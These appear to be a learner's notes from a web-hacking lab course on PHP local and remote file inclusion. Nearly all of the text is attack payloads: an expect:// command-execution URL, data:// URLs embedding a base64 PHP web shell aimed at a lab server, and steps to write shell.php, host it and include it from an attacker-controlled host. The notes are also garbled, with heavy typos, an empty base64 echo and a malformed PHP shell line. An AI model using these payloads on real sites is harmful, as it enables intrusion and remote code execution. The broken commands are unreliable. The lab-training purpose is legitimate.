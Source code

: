 `echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect`
As we can see the extenbsion config keyword us used to enable the expect module, which means we should be able to use for ganing REC though the LFI vulnerability.

`curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`
Execution commands through the expect module is fairly straghfoward, as this module was designed for command execution as mentioned earlier.
We'll also cover the phar and zip wrappers in upcoming sections, which we may use with web applications that allow file uploads to gain remote execution through LFI vulnerabilities.

- Exercise:
http://94.237.121.185:38674/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=ls%20/
http://94.237.121.185:38674/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=cat%20/37809e2f8952f06139011994726d9ef1.txt

# Remote File Inclusion RFI:
1. Enumerating local-only ports and web apps SSRF
2. Gaining remote code execution by including a malicius script that we host.

- Local vs Remote file Inclusion:
When a vulnerable allows us to include remote files, we may be able to host a malicius scritp include in the vulnerablepage to execute malicius funtions and gain remote code execution.
Almost any RFI vulnerability is also an LFI vulnerability, as any funtions that allows including remote URLs usually alos allows including a local ones.
    1. The vulnerable funtion may not allow including a remote URLs.
    2. May only control a portion of the filename and not eh entire protocol wrapper
    3. The configuration may prevent RFI altogether, as most modern web servers disable including remote files by def.

- Verify RFI:
Including remote URLs is consideres as dangerous practise as it may allow for such vulnerability. This is why remotpe URL including is usually disable by def. Any remote URL inclusion in PHP would require
the [allow_url_include] setting to be enable.

`echo '' | base64 -d | grep allow_url_include`

This may not always be reliable, as even is this setting is enable, the vulnerable funtion may not allow remote URL inclusion to begin with. A more reliable way to determinate whether an LFI vulnerability is also
vulnerable to RFI is to try and include a URL.
`http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php`
- Remote Code Execution with RFI:
First step in gaining remote code execution is creating a malicius script in the language of the web app in this case in PHP.
`echo '<?php system($_GET["cmd"}])?>' > shell.php`
All we need to do is host this script nad include it thought the RFI vulnerability. Common listening por is like 80 or 433, as these ports may be whitelists.

- HTTP:
`sudo python3 -m http.server port`
[http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id]
